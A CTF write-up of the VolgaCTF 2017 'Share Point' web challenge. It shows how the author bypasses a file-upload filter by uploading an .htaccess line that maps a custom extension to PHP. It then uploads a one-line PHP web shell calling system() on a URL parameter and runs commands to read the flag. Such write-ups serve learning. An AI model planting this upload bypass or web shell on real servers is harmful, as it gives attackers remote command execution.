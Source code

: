 # VolgaCTF 2017 Quals: Share Point

**Category:** Web Exploitation
**Points:** 00
**Total Solves:** Not Available
## Problem Description:

[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c\).)

> Look! I wrote a good service for sharing your files with your friends, enjoy. 



## Write-up
[//]: # (> Your write up goes here.)
This problem taught me something new about vulnerability in Apache server. This problems gives us a URL when we goto share-point.quals.2017.volgactf.ru and we see this login page: 
![Image](sharepointVolgaCTF-1.png?raw=true "Login Page")

We login with any user name and password. It gives a page where we can upload files on the server and see it. Natural guess is to upload a .php file and see it do our which is print the flag on server. But it doesn't allow us do upload .php file. Tried uploading .php5 but no help. After trying a lot of things like uploading .png file and files with any other extension tells us that we can see the name of file name in URL as we see the uploaded files. After getting to know this me and Terry are thinking like some how we need to upload a file with .php extension that way we can execute our code in by passing values in URL. After much thinking, looking up on web we realized that on Apache server we have .htaccess file where we can specify the extension of file which should be treated as php file on server side. By default which is .php. After realising this solution is easy. We first uploaded a file .htaccess with content ```AddType application/x-httpd-php .getflag```, what this do is it allow us execute any file with .getflag extension as php file. Now we uploaded a file named myfile.getflat which has following content:
```
<?php

system($_GET['cmmand']);

?>
```
![Image](sharepointVolgaCTF-2.png?raw=true "Login Page")
![Image](sharepointVolgaCTF-3.png?raw=true "Login Page")
![Image](sharepointVolgaCTF-4.png?raw=true "Login Page")

Once our file with php code is uploaded and is ready to executed on server, we go to see the file again and pass arguments to cmmand in url like: command=ls%20/opt. 

![Image](sharepointVolgaCTF-5.png?raw=true "Login Page")
This show that there is flag in /opt and passing the cmmand=cat%20/opt/flag.txt gives the flag: **VolgaCTF{AnoTHer_apPr0Ach_to_file_Up10Ad_with_PhP}**
![Image](sharepointVolgaCTF-6.png?raw=true "Login Page")
## Other write-ups and resources

* None
